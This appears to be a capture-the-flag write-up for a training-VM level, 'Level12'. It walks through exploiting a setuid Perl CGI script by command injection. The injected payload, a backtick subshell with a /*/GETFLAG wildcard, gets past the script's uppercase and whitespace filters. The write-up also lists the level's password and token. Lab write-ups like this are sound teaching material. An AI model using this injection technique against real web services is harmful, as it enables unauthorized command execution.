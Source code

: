 # Level12 - Flag12

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level11 | `fa6v5ateaw21peobuub8ipe6s` |
| flag11  |                             |
| token   | `g1qKMiRpXf53AWhDaU7FEkczr` |

## Steps to resolve on VM

1. Connect to `level12` user and notice there is a lua script with setuid bit

```bash
ssh level12@$SNOW_HOST -p 4242
# Enter the password

ls -l

> -rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

2. Check the file

```bash
cat level12.pl
```

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1]; # param y
  $xx = $_[0]; # param x
  $xx =~ tr/a-z/A-Z/; # param x - to uppercase
  $xx =~ s/\s.*//;    # param x - remove everything after the first whitespace
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) { # t result
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

While reading the script, we can see what the program do.

Nothing very interesting, but we can use the x parameter to inject a command.

But it's a little bit tricky, because there is a first translation from lowercase to uppercase. And then a substitute expression that removes everything after the first whitespace. So we need to deal with.

In addition, we can notice "localhost:4646"

3. Check ports

Is 4646 port open ?

```bash
netstat -tulpn | grep 4646

> Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
> tcp6       0      0 :::4646                 :::*                    LISTEN      -
```

Yes it is !

Is the program up ?

```bash
curl localhost:4646

> ..
```

Yes it is ! That's a good news. It just print "..", but it is up.

4. Create an uppercase `GETFLAG` script

We have to deal with lowercase substitution and avoid whitespaces

```bash
echo "getflag > /tmp/out" > /tmp/GETFLAG
chmod +x /tmp/GETFLAG
```

We have an other problem. How deal with `tmp` that is lowercase ?

The solution `PATH=/tmp:$PATH` does not work, because flag12 environment is used instead of level12 environment. Neither aliases

Maybe a wildcard ?

```bash
/*/GETFLAG
cat /tmp/out

> Check flag.Here is your token :
> Nope there is no token here for you sorry. Try again :)
```

It perfectly works !

Now we have to inject this command through the server

5. Exploit subshell while injecting a command

```bash
curl -s localhost:4646?x=\`/*/GETFLAG\`
```

6. Get level flag

Finally, read `/tmp/out`

```bash
cat /tmp/out

> Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

---

## Sources

### Shell

- [Check ports in use](https://www.cyberciti.biz/faq/unix-linux-check-if-port-is-in-use-command/)
